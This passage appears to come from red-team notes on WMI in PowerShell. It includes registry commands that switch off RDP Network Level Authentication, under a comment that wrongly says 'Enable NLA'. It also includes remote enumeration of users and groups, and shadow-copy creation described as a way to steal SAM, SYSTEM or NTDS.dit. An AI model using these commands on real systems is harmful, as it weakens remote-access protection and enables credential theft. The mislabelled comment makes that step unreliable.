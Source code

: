 ```powershell
# Microsoft OneDrive
```

List WMI installation directory:

```powershell
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -List 
$regProv.getStringValue(2147483650, "software\microsoft\wbem", "Installation Directory") | select -ExpandProperty sValue
```

Edit regitry to turn off Network Level Authentication (NLA):

```powershell
$regProv = Get-WmiObject -Namespace "root\default" -Class StdRegProv -List 
$regProv.EnumValues(2147483650,"SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp") | select -ExpandProperty sNames

# Check NLA enabling status
$regProv.GetDWORDValue(2147483650, "SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp", "UserAuthentication") | select -ExpandProperty uValue
# 0 --> NLA disabled
# 1 --> NLA enabled

# Enable NLA
$regProv.SetDWORDValue(2147483650, "SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp", "UserAuthentication", 0)

# Check NLA enabling status
$regProv.GetDWORDValue(2147483650, "SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp", "UserAuthentication") | select -ExpandProperty uValue
```


## WMI for Red Teams

### Information Gathering

These commands for information gathering can be executed both on a local or remote box:

```powershell
# List routes
Get-WmiObject -Class Win32_IP4RouteTable
Get-CimInstance -ClassName Win32_IP4RouteTable

# List users (it provides also domain users and bidirectional trusted domain users)
Get-WmiObject -Class Win32_UserAccount
Get-CimInstance -ClassName Win32_UserAccount

# List groups
Get-WmiObject -Class Win32_Group
Get-CimInstance -ClassName Win32_Group

# Create a shadow copy
# Shadow Copy is a technology included in Microsoft Windows that can create backup copies or snapshots of computer files or volumes even when they are in use. It can be useful to steal data from SAM, SYSTEM or NTDS.dit files in particular from remote boxes.
# List existing shadow copies
Get-WmiObject -Class Win32_ShadowCopy
# Use class method to create a shadow copy of "C:\"
(Get-WmiObject -Class Win32_ShadowCopy -List).create("C:\", "ClientAccessible")
# Create a link to the shadow copy
$link = (Get-WmiObject -Class Win32_ShadowCopy).DeviceObject + "\"
cmd /c mklink /d C:\shadowcopy "$link"
```
